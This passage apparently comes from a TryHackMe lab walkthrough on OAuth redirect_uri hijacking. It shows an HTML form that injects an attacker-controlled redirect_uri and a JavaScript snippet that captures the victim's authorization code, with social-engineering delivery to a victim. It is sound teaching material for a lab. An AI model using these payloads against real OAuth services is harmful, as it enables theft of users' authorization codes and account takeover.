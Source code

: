 ![coffeeshopapp application panel showing redirect_uri](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1723542692246.png)

- **Attacker's Strategy**: If an attacker gains control over `dev.bistro.thm`, they can exploit the OAuth flow. By setting the `redirect_uri` to `http://dev.bistro.thm/callback`, the authorization server will send the token to this controlled domain.
- **Crafted Attack:** The attacker initiates an OAuth flow and ensures the `redirect_uri` points to their controlled domain. After the user authorizes the application, the token is sent to `http://dev.bistro.thm/callback`. The attacker can now capture this token and use it to access protected resources.

Preparing the Payload (Attacker Perspective)

Before starting the exercise, please ensure you are logged out of the OAuth provider as a victim by visiting the link [http://coffee.thm:8000/admin/logout](http://coffee.thm:8000/admin/logout).

For this exercise, we assume that the attacker has compromised the domain `dev.bistro.thm:8002` and can host any HTML page on the server. Consider Tom, a victim to whom we will send a link. The attacker can craft a simple HTML page (`redirect_uri.html`) with the following code:

```html
     <form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
            <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
            <input type="submit" value="Hijack OAuth">
        </form>
```

This form sends a hidden `redirect_uri` parameter with the value `http://dev.bistro.thm:8002/malicious_redirect.html` and submits a request to [http://coffee.thm:8000/oauthdemo/oauth_login/.](http://coffee.thm:8000/oauthdemo/oauth_login/)  The `malicious_redirect.html` page then intercepts the authorization code from the URL using the following code:

```javascript
<script>
            // Extract the authorization code from the URL
            const urlParams = new URLSearchParams(window.location.search);
            const code = urlParams.get('code');
            document.getElementById('auth_code').innerText = code;
            console.log("Intercepted Authorization Code:", code);
            // code to save the acquired code in database/file etc
        </script>
        
```

**Note**: Since the attacker has complete control over the subdomain, once he redirects a victim to the attacker-controlled domain, he will save the credentials in a database/file, etc., for later usage. Moreover, the redirection from redirect_uri to the original URL would be so quick that the victim would have no idea that his authorization code has been hijacked.

The attacker can send Tom the link ([http://dev.bistro.thm:8002/redirect_uri.html](http://dev.bistro.thm:8002/redirect_uri.html)) through social engineering tactics or a CSRF attack. The victim, unsuspecting of the malicious intent, clicks on the link, which takes them to the URL `dev.bistro.thm:8002/redirect_uri.html`. In the attached VM, open the [link](http://dev.bistro.thm:8002/redirect_uri.html) in the browser as a victim. Here, you will see the following screen:

![login via oauth with malicious redirect](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1721893887281.png)
